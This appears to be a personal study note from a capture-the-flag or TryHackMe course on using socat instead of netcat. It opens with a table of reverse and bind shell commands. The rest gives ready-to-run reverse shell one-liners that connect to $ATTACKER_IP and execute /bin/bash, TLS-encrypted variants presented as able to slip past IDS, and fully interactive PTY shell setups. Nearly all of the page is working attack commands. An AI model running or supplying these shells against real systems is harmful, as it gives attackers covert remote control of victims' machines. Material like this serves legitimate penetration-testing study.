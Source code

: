 # Using “socat”

Socat: An anything-to-anything connector!

## “socat” vs. “netcat”

Equivalent commands between socat and netcat:

| Role                     | netcat                                   | socat                                                  |
|:------------------------ |:---------------------------------------- |:------------------------------------------------------ |
| Reverse shell (attacker) | `nc -lnp $LISTENER_PORT`                    | `socat TCP-LISTEN:$LISTENER_PORT -`                       |
| Reverse shell (target)   | `nc $ATTACKER_IP $LISTENER_PORT -e /bin/bash` | `socat TCP:$ATTACKER_IP:$LISTENER_PORT EXEC:"/bin/bash -li"` |
| Bind shell (attacker)    | `nc $TARGET_IP $LISTENER_PORT`              | `socat TCP:$TARGET_IP:$LISTENER_PORT`                      |
| Bind shell (target)      | `nc -lnp $LISTENER_PORT -e /bin/bash`        | `socat TCP-LISTEN:$LISTENER_PORT EXEC:"/bin/bash -li"`      |

Socat gets us an interactive login shell right out the gate, though we’re still vulnerable to Ctrl+C. Note that when binding to PowerShell, use `powershell.exe,pipes` in order to force PowerShell to use UNIX-style STDIN/STDOUT.

### Socat Encrypted Shells

Socat can also make encrypted connections, which foil after-the-fact network analysis and may circumvent IDS entirely.

```bash
# Generate a self-signed certificate.
#
openssl req --newkey rsa:2048 -nodes \
            -keyout shell.key -x509 -days 362 \
            -out shell.crt

# Create a PEM file combining the certificate and key.
#
cat shell.key shell.crt > shell.pem

# Start a listener.
#
socat \
	OPENSSL-LISTEN:$LISTENER_PORT,cert=shell.pem,verify=0 -

# Start the reverse shell on the target.
#
socat \
	OPENSSL:$ATTACKER_IP:$LISTENER_PORT,verify=0 \
	EXEC:"/bin/bash -li"
```

The `verify=0` directive turns off certificate validation, so this isn’t a “secure” connection in the sense that it’s been *authenticated*, but it is secure in the sense that it’s *encrypted*.

## Shell “Stabilization”

Shell “stabilization” refers to the process of making a remote shell behave like a normal local shell — so, allowing interactive programs to work properly, ensuring that input is not echoed inappropriately, etc.

We can use socat to create an auto-stabilized reverse shell on UNIX-like systems.

```bash
# Attacker: Connect $LISTENER_PORT to the current TTY,
# send raw keycodes, and turn off terminal echo.
# Basically the `stty raw -echo`.
#
socat TCP-LISTEN:$LISTENER_PORT FILE:`tty`,raw,echo=0

# Target: Connect the listener on the attacker to an
# interactive login bash shell.
#
#     pty    - allocate a PTTY
#     stderr - redirect STDERR to the attacker
#     sigint - pass signals (Ctrl+C) through
#     setsid - use a new session
#     sane   - use a variety of tweaks to “normalize” the
#              terminal’s environment
#
socat TCP:$ATTACKER_IP:$LISTENER_PORT \
      EXEC:"/bin/bash -li",pty,stderr,sigint,setsid,sane
```

Same thing, but over an encrypted connection:

```bash
# Attacker: Connect $LISTENER_PORT to the current TTY,
# send raw keycodes, and turn off terminal echo. Basically
# the `stty raw -echo`.
#
socat \
	OPENSSL-LISTEN:$LISTENER_PORT,cert=$PEM_FILE,verify=0 \
	FILE:`tty`,raw,echo=0

# Target: Connect the listener on the attacker to an
# interactive login bash shell.
#
#     pty    - allocate a PTTY
#     stderr - redirect STDERR to the attacker
#     sigint - pass signals (Ctrl+C) through
#     setsid - use a new session
#     sane   - use a variety of tweaks to “normalize” the
#              terminal’s environment
#
socat \
	OPENSSL:$ATTACKER_IP:$LISTENER_PORT,verify=0 \
	EXEC:"/bin/bash -li",pty,stderr,sigint,setsid,sane
```

NOTE that the reverse shell will not pick up on your terminal size, so you’ll need to manually specify it using `stty rows` and `stty cols`.

## References

* [TryHackMe: Complete Beginner](tryhackme-complete-beginner.md)
* [Using “netcat”](netcat.md)

- - - -

<span aria-hidden="true">👤</span> Nathan Acks  
<span aria-hidden="true">📅</span> October 28, 2021
